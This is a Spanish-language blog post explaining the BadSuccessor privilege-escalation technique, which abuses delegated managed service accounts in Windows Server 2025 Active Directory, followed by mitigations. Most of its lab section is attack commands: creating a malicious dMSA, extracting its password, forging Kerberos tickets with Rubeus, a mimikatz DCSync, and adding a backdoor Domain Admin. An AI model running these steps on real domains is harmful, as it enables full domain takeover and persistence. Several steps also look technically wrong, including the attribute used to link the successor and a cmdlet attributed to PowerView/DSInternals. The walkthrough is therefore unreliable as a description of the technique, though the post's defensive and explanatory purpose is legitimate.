 ```yaml
---
title: BadSuccessor - Escalada de privilegios abusando de dMSA en Active Directory
date: 2025-05-22 09:00:00 
categories: [CIBERATAQUES]
tags: [ciberseguridad, ciberataque, vulnerabilidad]
description: Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor.
image: /assets/136/preview1.png
---
```


Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor. Esta técnica depende de una nueva funcionalidad legítima: las Cuentas de Servicio Administradas Delegadas (dMSA).

###  ¿Qué son las dMSA?

Las Delegated Managed Service Accounts (dMSA) fueron introducidas en Windows Server 2025 como una mejora sobre las Managed Service Accounts (MSA) y Group Managed Service Accounts (gMSA). Su objetivo es permitir una gestión centralizada, segura y delegada de cuentas de servicio, incluyendo:

- Rotación automática de contraseñas.
- Restricción por máquina (sólo equipos autorizados pueden usarla).
- Delegación de control para facilitar la administración sin comprometer el principio de privilegios mínimos.

Sin embargo, es precisamente esta capacidad de delegación la que abre la puerta a BadSuccessor.

###  La idea detrás de BadSuccessor

BadSuccessor se basa en el abuso de la funcionalidad que permite delegar la gestión de una dMSA. Mediante esta característica, es posible que una entidad (usuario o grupo) administre otra cuenta de servicio sin necesidad de privilegios directos de dominio.

El problema aparece cuando:

- Una cuenta de bajo privilegio es delegada para gestionar una dMSA privilegiada (por ejemplo, usada por un servicio con permisos elevados).
- Esta cuenta crea una nueva dMSA "sucesora" que se declara como reemplazo de la dMSA original.
- Active Directory acepta al sucesor como legítimo, permitiéndole heredar privilegios y usos de la cuenta original.

Este flujo puede usarse para escalar privilegios dentro del dominio sin explotar vulnerabilidades, sino simplemente configuraciones laxas de delegación.

##  Escenario de ataque

- El atacante crea una nueva cuenta dMSA, por ejemplo: attacker$.
- El atacante modifica los atributos del objeto de AD de la dMSA objetivo (por ejemplo, svc_SQLProd$) para vincular la nueva dMSA (attacker$) como su sucesora.
- El atacante solicita un TGT (Ticket Granting Ticket) a través de Kerberos usando su nueva cuenta attacker$.
- El DC emite un TGT válido para attacker$, que incluye acceso y permisos equivalentes a los de la cuenta original (target user, como svc_ejemplo$). Como resultado, el atacante actúa con privilegios heredados. Si la dMSA original era miembro de grupos como Domain Admins, ahora attacker$ tiene acceso al dominio completo.

<img src="/assets/136/136-01.jpg"  width="500" height="500">

###  Requisitos del ataque

- Control parcial o total de una cuenta con delegación sobre una dMSA privilegiada.
- Acceso a un entorno de dominio con controladores de dominio actualizados a Windows Server 2025.
- Conocimiento de las estructuras de delegación en Active Directory.

###  Ejemplo - Escenario de ataque completo: De usuario delegado a Domain Admin

**Infraestructura del laboratorio**
- Dominio: lab.local
- DC: DC01.lab.local (Windows Server 2025)
- Cuenta dMSA privilegiada: svc_SQLProd$ (usada por un SQL Server miembro de Domain Admins)
- Usuario con delegación: john.smith (puede gestionar la cuenta svc_SQLProd$)

**Objetivo**

Elevar privilegios desde john.smith hasta obtener un TGT como svc_SQLProd$, lo cual permite realizar acciones como un Domain Admin.

**1. Verificar delegación sobre la dMSA**

    Get-ACL "AD:\CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" | Format-List

Verifica que john.smith tenga permisos como WriteProperty, GenericAll, o similares.

**2. Crear una dMSA sucesora**

    New-ADServiceAccount -Name "svc_Malicious" -RestrictToOutboundAuthenticationOnly:$true
    
    # Delegar la gestión (herencia/sucesión)
    Set-ADObject -Identity "CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" \
      -Add @{"msDS-ManagedBy"="CN=svc_Malicious,CN=Managed Service Accounts,DC=lab,DC=local"}

Este paso vincula la nueva dMSA como sucesora, heredando la funcionalidad de la original. 

**3. Instalar la dMSA en una máquina autorizada**

    Install-ADServiceAccount -Identity svc_Malicious
    Test-ADServiceAccount -Identity svc_Malicious

**4. Obtener el secreto gestionado (hash o contraseña)**

Instala el módulo RSAT si es necesario:

    Import-Module ActiveDirectory
    Get-ADServiceAccount svc_Malicious -Properties msDS-ManagedPassword

Alternativamente, usa PowerView o DSInternals para extraerlo:

    Get-ADComputerServiceAccountKey -AccountName svc_Malicious

**5. Solicitar un TGT con Rubeus**

    Rubeus.exe asktgt /user:svc_Malicious$ /rc4:<NTLM_HASH> /domain:lab.local

Y cargarlo en la sesión actual:

    Rubeus.exe ptt /ticket:<base64_TGT>

**6. Acciones como Domain Admin**
   
Si svc_SQLProd$ es miembro de Domain Admins, ahora el atacante puede:

    # Enumerar controladores
    nltest /dclist:lab.local
    
    # DCSync
    mimikatz "lsadump::dcsync /user:Administrator"
    
    # Agregar usuario administrador
    net user backdoor P@ssw0rd! /add
    dsmod group "CN=Domain Admins,CN=Users,DC=lab,DC=local" -addmbr "CN=backdoor,CN=Users,DC=lab,DC=local"

### Mitigaciones recomendadas

1. **Auditar la delegación de control** en cuentas de servicio: ninguna cuenta de bajo privilegio debería tener permisos sobre cuentas usadas por servicios críticos.

2. **Revisar el uso de sucesores** en configuraciones de dMSA: documentar qué cuentas pueden sustituir a otras.

3. **Limitar la creación de nuevas dMSA** a roles administrativos específicos y supervisados.

4. **Supervisar cambios en objetos dMSA** mediante logging y SIEM.

### Conclusión

BadSuccessor es un excelente ejemplo de cómo una funcionalidad legítima puede transformarse en un vector de ataque si no se configura correctamente. La aparición de dMSA en Windows Server 2025 introduce ventajas significativas para la gestión de servicios, pero también requiere una revisión cuidadosa de las políticas de delegación. Este tipo de investigaciones demuestran que la seguridad no está sólo en los parches, sino en el diseño y la gobernanza del entorno.






